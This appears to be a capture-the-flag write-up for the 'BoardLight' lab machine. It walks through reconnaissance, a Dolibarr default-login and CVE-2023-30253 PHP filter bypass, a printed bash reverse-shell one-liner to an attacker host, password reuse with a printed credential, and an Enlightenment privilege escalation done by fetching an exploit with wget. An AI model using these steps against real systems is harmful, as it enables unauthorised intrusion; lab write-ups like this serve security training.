 ```yaml
---
title: Board Light
date: 2025-06-05
tags: [easy, linux]
---
```


### Task 1 

How many TCP ports are listening on BoardLight?

By running ``sudo nmap -sS <target_ip>`` we scan for all TCP ports on the target machine.

![alt text](image-b.png)

### Task 2

What is the domain name used by the box?

Navigating to the web page by typing the IP address on a browser, we see at the end of the page that the contact email is ``info@board.htb``. At the end of the page, we also see the copyright message "2020 All Rights Reserved By Board.htb" using the same  domain. Those are strong indications of the domain used by the box.

### Task 3

What is the name of the application running on a virtual host of board.htb?

For answering this task, we can use the ``gobuster`` tool to brute-force subdomains via virtual host fuzzing. After adding the target IP address - domain pair on the /etc/hosts file, we run ``gobuster vhost -u http://board.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt``. 

![alt text](image-b-1.png)

We find the ``crm.board.htb`` domain and we add this with the target IP address to the /etc/hosts file as well. After, we navigate to the domain name on the web browser and find the application.

![alt text](image-b-2.png)

### Task 4

What version of Dolibarr is running on BoardLight?

On the top of the web page, the version for the application shows to be 17.0.0.

### Task 5

What is the default password for the admin user on Dolibarr?

Since we are presented with a login page we can try the password ``admin`` for the user ``admin`` which works successfully getting as to the admin's page.

### Task 6

What is the 2023 CVE ID for an authenticated vulnerability that can lead to remote code execution in this version of Dolibarr?

Searching for the version of Dolibarr on the [NIST vulnerability database](https://nvd.nist.gov/vuln/detail/CVE-2023-30253), we find the ID to be ``CVE-2023-30253``.

<!--truncate--> 

### Task 7

What user is the Dolibarr application running as on BoardLight?

We first navigate to the "Websites" tab on the admin page and we add a Website. On the website we add a webpage by using an empty page as an example. 

![alt text](image-b-3.png)

After creating the empty page, we edit the HTML source by adding php code, changint the format to uppercase to bypass the filtering.

![alt text](image-b-4.png)

This results to succesfully executing the inserted php code. Next, we set up a listener ``nc -lnvp 4444`` and add a reverse shell code on the HTML source such ``<?PHP exec("/bin/bash -c 'bash -i > /dev/tcp/<host_ip>/4444 0>&1'");?>``. This gives us a connection.

![alt text](image-b-5.png)

### Task 8 

What is the full path of the file that contains the Dolibarr database connection information?

Searching online about Dolibarr configuration files we find that it is usually under ``/htdocs/conf/conf.php``. Indeed, navigating to ``/var/www/html/crm.board.htb/htdocs/conf`` and opening the ``conf.php`` file we can see the database configuration.

![alt text](image-b-6.png)

### Task 9

Sumbit the flag located in the larissa user's home directory.

Navigating to the ``/home`` directory we see that as the user we currently are we cannot have access to the directory larissa.

![alt text](image-b-7.png)

What we will now do, is using the database credentials we previously found in the configuration file to switch to the larissa user. We run:

```
su larissa
serverfun2$2023!!
```

And we actually managed to gain access.

![alt text](image-b-8.png)

We go on by navigating to larisa's home directory and get the user flag by using ``cat user.txt``. 

### Task 10 

What is the name of the desktop environment installed on Boardlight?


To find the desktop environment we can run ``ls /usr/share/xsessions`` since this directory contains the .desktop files that define the graphical session for display managers.

### Task 11 

What version of Enlightenment is installed on BoardLight?

To see the version, we can open the file we found in the previous task.

### Task 12

What is the 2022 CVE ID for a vulnerability in Enlightenment versions before 0.25.4 that allows for privilege escalation?

After searching fot the vulnerability on the CVE database, we find the CVE ID to be [CVE-2022-37706](https://www.cve.org/CVERecord?id=CVE-2022-37706).

### Task 13

Submit the flag located in the root user's home directory.

After finding a public exploit, we open a web server on the host and on the directory that exploit file is saved with ``pyhthon3 -m http.server 8080``. Then on the target we use ``wget http://<host_ip>:8080/exploit.sh`` to get the file. After getting the file we run ``chmod +x exploit.sh`` to make it executable. Running it, we gain root privileges.

![alt text](image-b-9.png)

Navigating to the root directory we get the root flag by ``cat root.txt``.